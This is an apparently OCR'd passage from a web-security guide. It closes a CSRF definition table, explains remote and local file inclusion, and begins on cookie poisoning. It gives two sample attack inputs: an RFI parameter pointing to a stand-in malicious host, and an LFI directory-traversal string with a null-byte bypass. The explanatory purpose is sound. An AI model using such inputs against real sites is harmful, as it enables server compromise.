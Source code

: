  <tr>
    <td>Cross-site request forgery (CSRF) <br /></td>
    <td>
      CSRF/XSRF is also known as a one-click attack or session riding.
      CSRF is a malicious exploit in which unauthorized commands are
      transmitted from the user to a website that currently trusts the
      user through authentication, cookies, etc.
      <br />
      A CSRF attack is almost the opposite of an XSS attack, except CSRF
      exploits a site's trust in a user's browser.
      <br />
    </td>
  </tr>
</tbody>
</table>

#### File Inclusion

In a file inclusion attack, the attacker adds a file to the running process of a web app or website. The file is either constructed to be malicious or manipulated to serve the attacker's malicious purposes. There are two basic types of file inclusion: remote and local.

In remote file inclusion (RFI), the attacker executes a script to inject a remote file into the web app or website. An attacker could, for instance, force a parameter in a web page to call an external malicious link which includes the compromised file. For example, consider a page built in PHP that does not correctly filter arbitrary values added to page parameters. The PHP code consists of a FONT parameter with five options, each with a different font type. The attacker can manipulate this parameter to inject an option that is not one of these five—and not only that, the attacker can point to an external URL that contains a malicious PHP file:

`/webpage.php?FONT=http://www.malice.foo/malware.php`

In local file inclusion (LFI), the attacker adds a file to the web app or website that already exists on the hosting server. This is often accomplished on servers vulnerable to directory traversal; the attacker navigates through the server's file structure and executes a file. As in the directory traversal example, an attacker could gain control over the server by opening a command prompt. A common tactic used in LFI is introducing a null character (%00 in URL encoding) at the end of the request to bypass security mechanisms that automatically add a .php suffix to the request. This enables the attacker to access non-PHP files:

`/webpage.php?FONT=../../Windows/system32/cmd.exe%00`

#### Cookie Poisoning

HTTP is a stateless protocol, meaning the server preserves no information about the client. As most web applications depend on retaining information about clients, various mechanisms have been used to preserve this sort of stateful information. Cookies are one of those methods. A cookie is created when the server sends an HTTP response header with the cookie. Subsequent request headers sent by the client will usually include the cookie. Cookies are either nonpersistent (or session) cookies, in which case they are stored in memory and deleted when the browser instance is closed, or persistent, in which case they are stored in the browser cache until deleted by the user or pass a defined expiration date.

If cookies are used to store confidential information, the web application should encrypt them before sending them to the client. If using SSL, information in a cookie would be secure in transit but reside on the client's computer in plaintext unless separately encrypted.
